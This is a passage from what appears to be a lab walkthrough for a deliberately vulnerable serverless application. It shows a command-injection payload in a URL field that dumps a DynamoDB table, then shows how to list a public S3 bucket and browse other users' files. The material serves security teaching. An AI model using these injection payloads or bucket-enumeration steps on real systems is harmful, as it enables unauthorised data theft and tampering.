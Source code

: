 ```

Let's use the following payload in the URL field, and see what happens:
```
https://; node -e 'const AWS = require("aws-sdk"); (async () => {console.log(await new AWS.DynamoDB.DocumentClient().scan({TableName: process.env.TABLE_NAME}).promise());})();'
```
**Bingo!** we got the entire contents of the table:
```
{ Items: [ { document_url: 'https://mmm; env #', id: '9737d9bd-02d5-11e9-8e7b-4f1a91d122d7', ip: 'XX.XXX.XXX.XX' }, { document_url: 'http://mmm; env #', id: 'b7c18b3a-02ed-11e9-a3d5-175f28e986d4'
...
...
```

**Extra Credit** You can use the same approach, to access and tamper data inside the S3 bucket. Try it!


### Lesson 5: Abusing Insecure Cloud Configurations ###
By now, we're sure you are well aware of the many publicly open S3 buckets out there. This happens when you deploy cloud resources without following security best-practices. The same thing exists in our application. We already know the name of the bucket used by the application - we got it in the BUCKET_NAME environment variable, and frankly, it wasn't that difficult to spot it in the redirect URL of the response to the convert operation:

`http://aws-serverless-repository-serverless-goat-bucket-{string}.s3-website-{region}.amazonaws.com/{uuid}`

So, the bucket is called: `aws-serverless-repository-serverless-goat-bucket-{string}`

Let's try to request it. Just paste the bucket name in the following format, in your browser's URL line: `http://aws-serverless-repository-serverless-goat-bucket-{string}.s3.amazonaws.com/`

You should get a full listing of the entire bucket contents. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>aws-serverless-repository-serverless-goat-bucket-{string}</Name><Prefix></Prefix><Marker></Marker><MaxKeys>1000</MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>0858ac61-cdcf-486e-93c4-c05d31e58f93</Key><LastModified>2018-12-18T12:03:22.000Z</LastModified>
<ETag>&quot;ce1ed7ade5ee78fabeba4e31d307b67f&quot;</ETag><Size>2605</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>12776bf6-c034-4590-a1df-5dc8a5d9a810</Key><LastModified>2018-12-18T14:43:11.000Z</LastModified><ETag>&quot;f5c029f6b1af90e22f57a5cebbe14e47&quot;</ETag><Size>1942</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>14b7a569-6619-4117-8a01-4430b975b676</Key>
...
...
```
You can now try to browse other files in the bucket, belonging to other user's 'convert' operations by concatenating the uuid to the URL (that's the file name.

### Lesson 6: Finding Known Vulnerabilities In Open Source Packages ###
When we retrieved the source code of the Lambda function, we saw that it includes a dependency to the `node-uuid` NPM package: `const uuid = require('node-uuid');`
